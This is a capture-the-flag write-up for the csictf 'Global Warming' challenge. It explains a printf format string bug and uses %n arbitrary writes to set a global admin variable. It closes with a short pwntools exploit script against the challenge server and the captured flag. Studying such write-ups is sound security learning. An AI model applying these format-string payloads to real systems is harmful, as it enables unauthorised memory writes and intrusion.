





# Global Warming
This was a *different* type of binary exploitation challenge. First, check the protections:



Much like the others. Let's run it:



So our input is sent back to us, along with the notice that we cannot log in with input. As we control the print, let's check if there's a format string bug.



And indeed there is. Interestingly, there's no buffer overflow. Let's decompile it to see what's going on:



`main` is very simple - takes in input (using a secure `fgets()`, explaining why there was no BoF) and passes the input to the `login()` function.



Input it printed back to us, as we saw, with `printf`. This causes the format string. The interesting part is it checks the global `admin` variable before printing the flag. <br>

Clearly, we have to overwrite the `admin` variable somehow. To do this, we're going to have to leverage the format string `%n` specifier for an arbitrary write.<br>

`%n` takes a pointer to a signed int, where the **number of characters written so far is stored**. Because we can control certain aspects of the stack (as the buffer is on the stack) we can tell it *where* to write the data. As we can control the input, we can tell it *how much*. This gives us an arbitrary write. If we want to write 20 bytes somewhere, we input 20 characters and then call `%n`. We can even use other fancy format string specifiers to shorten it enough,<br>

I would explain how to leverage this in detail, but frankly, others have done so much, much better than me :)<br>

* [LiveOverflow - Format String with %n](https://www.youtube.com/watch?v=0WvrSfcdq1I)
* [Format String Vulnerability](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)

There are plenty more resources online.

## Exploitation
Luckily for us, `pwntools` contains a feature to automate `%n` exploitation.

> Note: You should **understand how the exploit works** before you use tools to do it for you.

The pwntools module is `fmtstr_payload`, and takes in two values: the offset for the format string and a dictionary. The keys in the dictionary are the location to write to, and the values are the data to write there.

```python
from pwn import *

elf = ELF('./vuln')
p = remote("chall.csivit.com", 30023)

admin = elf.symbols['admin']
value = 0xb4dbabe3                              # this is the value admin needs to be

payload = fmtstr_payload(12, {admin : value})

p.sendline(payload)

print(p.clean().decode())
```

**csictf{n0_5tr1ng5_@tt@ch3d}**